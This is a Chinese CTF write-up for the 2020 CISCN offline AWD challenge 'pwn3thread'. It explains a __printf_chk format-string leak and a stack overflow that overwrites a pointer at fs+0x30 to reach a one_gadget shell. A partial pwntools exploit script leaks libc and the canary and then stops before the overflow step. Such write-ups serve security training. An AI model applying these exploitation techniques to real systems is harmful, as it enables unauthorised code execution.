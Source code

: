 ### <a class="reference-link" name="2020%20ciscn%20%E7%BA%BF%E4%B8%8B%20awd%20%EF%BC%9Apwn3thread"></a>2020 ciscn 线下 awd ：pwn3thread

这道题本质上还是属于栈溢出的内容，但因为涉及到printf函数中的一个函数劫持，所以也可以归为格串的利用。

main函数如下：

[![](https://cdn.jsdelivr.net/gh/nuoye-blog/pic/img/20201025203449.png)](https://cdn.jsdelivr.net/gh/nuoye-blog/pic/img/20201025203449.png)

即重复创建线程并等待返回。

线程中执行的函数：

[![](https://cdn.jsdelivr.net/gh/nuoye-blog/pic/img/20201025203456.png)](https://cdn.jsdelivr.net/gh/nuoye-blog/pic/img/20201025203456.png)

该函数中首先保存了返回地址，并在结束前恢复返回地址，所以无法通过劫持该函数的返回地址来进行getshell。

该程序中用到了`__printf_chk`函数，该函数与printf的区别在于：
- 不能使用 `%x$n` 不连续地打印，也就是说如果要使用 `%3$n`，则必须同时使用 `%1$n` 和 `%2$n`。
- 在使用 `%n` 的时候会做一些检查。
`__printf_chk`调用过程中有一个的`buffered_vfprintf`函数，相应漏洞内容如下：

[![](https://cdn.jsdelivr.net/gh/nuoye-blog/pic/img/20201025203502.png)](https://cdn.jsdelivr.net/gh/nuoye-blog/pic/img/20201025203502.png)

其中fs寄存器指向线程栈地址之后连续的一块地址，因此可以通过栈溢出劫持该指针，进而达到任意代码执行的目的。

思路：
1. 利用`%p`打印出`libc`地址和`canary`值，以便栈溢出
1. 泄漏处`libc+0x3F0990`处的值，并进行移位操作，再与onegadget进行异或得到一格特定值。
1. 将该特定值通过栈溢出的方式写入到fs+0x30处，从而达到getshell目的。
exp：

```
from pwn import *
p = process("./pwn")
libc = ELF("./pwn").libc
one = [0x4f3d5,0x4f432,0x10a41c]
def ROR(i,index):
    tmp = bin(i)[2:]
    tmp = (64-len(tmp))*'0'+tmp
    for j in range(index):
        tmp = tmp[-1]+tmp[:-1]
    return int(tmp,2)

#leak libc and canary
i = 7+5
p.sendline("%p"*i)
p.recvuntil("0x")
libc_base =int(p.recv(12),16)-0x3ED8D0
libc.address = libc_base
print hex(libc_base)
for i in range(i-5):
    p.recvuntil("0x")
canary =int(p.recv(),16)
print hex(canary)

#leak libc+0x3F0988
payload = '%p'*6+'%s'+'aa'+p64(libc.address+0x3F0988)
p.sendline(payload)
p.recvuntil("025")
p.recvuntil("0x")
p.recvuntil("6161732570257025")

#overflow and getshell
```